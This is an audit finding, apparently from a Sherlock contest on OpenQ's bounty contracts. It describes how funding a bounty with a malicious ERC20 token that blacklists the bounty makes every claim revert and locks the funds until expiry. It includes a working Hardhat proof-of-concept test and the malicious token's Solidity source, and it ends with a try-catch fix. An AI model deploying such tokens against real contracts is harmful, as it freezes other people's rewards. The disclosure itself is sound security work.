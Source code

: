 carrot

high

# Bounties can be broken by funding them with malicious ERC20 tokens

## Summary
Any malicious user can fund a bounty contract with a malicious ERC20 contract and prevent winners from withdrawing their rewards.
## Vulnerability Detail
The `DepositManagerV1` contract allows any user to fund any bounty with any token, as long as the following check passes in `fundBountyToken` function
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/DepositManager/Implementations/DepositManagerV1.sol#L45-L50
This check always passes as long as `tokenAddressLimitReacehd` is false, which will be the case for most cases and is a reasonable assumption to make. 

The claims are handled by the `claimManagerV1` contract, which relies on every single deposited token to be successfully transferred to the target address, as can be seen with the snippet below, taken from the function `_claimAtomicBounty`
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/ClaimManager/Implementations/ClaimManagerV1.sol#L123-L134
and the `claimBalance` function eventually ends up using the `safeTransfer` function from the Address library to carry out the transfer as seen in `BountyCore.sol:221`
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/Bounty/Implementations/BountyCore.sol#L221-L228
However, if any of the tokens end up reverting during the `safeTransfer` call, the entire claiming call is reverted. It is quite easy for an attacker to fund the bounty with such a malicious contract, and this would essentially brick the bounty preventing the claims from being processed. This will also lock up the funds in the contract until expiry, which can be an indefinite amount of time.

This attack can be carried out in the following bounty types:
1. AtomicBountyV1
2. TieredFixedBounty
3. TieredPercentageBounty

by using malicious ERC20 tokens following the same attack vector.

## Impact
Bricking of bounty and lock up of funds until expiry timestamp
## Code Snippet
The attack can be recreated using the following test snippet
```javascript
it('should revert when holding malicious token', async () => {
          // ARRANGE
          const volume = 100
          await openQProxy.mintBounty(
            Constants.bountyId,
            Constants.organization,
            atomicBountyInitOperation
          )
          const bountyAddress = await openQProxy.bountyIdToAddress(
            Constants.bountyId
          )
          await depositManager.fundBountyToken(
            bountyAddress,
            ethers.constants.AddressZero,
            volume,
            1,
            Constants.funderUuid,
            { value: volume }
          )

          // Attacker funds with bad token
          const attacker = claimantThirdPlace
          const MockBAD = await ethers.getContractFactory('MockBAD')
          const mockBAD = await MockBAD.connect(attacker).deploy()
          await mockBAD.deployed()
          await mockBAD.connect(attacker).approve(bountyAddress, 10000000)
          await depositManager
            .connect(attacker)
            .fundBountyToken(
              bountyAddress,
              mockBAD.address,
              volume,
              1,
              Constants.funderUuid
            )
          // Blacklist malicious token
          await mockBAD.connect(attacker).setBlacklist(bountyAddress)

          // ACT
          await expect(
            claimManager
              .connect(oracle)
              .claimBounty(
                bountyAddress,
                claimant.address,
                abiEncodedSingleCloserData
              )
          ).to.be.revertedWith('blacklisted')
        })
```
Where the `mockBAD` token is defined as follows, with a malicious blacklist:
```solidity
contract MockBAD is ERC20 {
    address public admin;
    address public blacklist;

    constructor() ERC20('Mock DAI', 'mDAI') {
        blacklist = address(1);
        _mint(msg.sender, 10000 * 10 ** 18);
        admin = msg.sender;
    }

    function setBlacklist(address _blacklist) external {
        require(msg.sender == admin, 'only admin');
        blacklist = _blacklist;
    }

    function _beforeTokenTransfer(
        address from,
        address to,
        uint256 amount
    ) internal virtual override {
        require(from != blacklist, 'blacklisted');
        super._beforeTokenTransfer(from, to, amount);
    }
}
```

## Tool used
Hardhat
Manual Review

## Recommendation
Use a try-catch block when transferring out tokens with `claimManager.sol`. This will ensure that even if there are malicious tokens, they wont revert the entire transaction.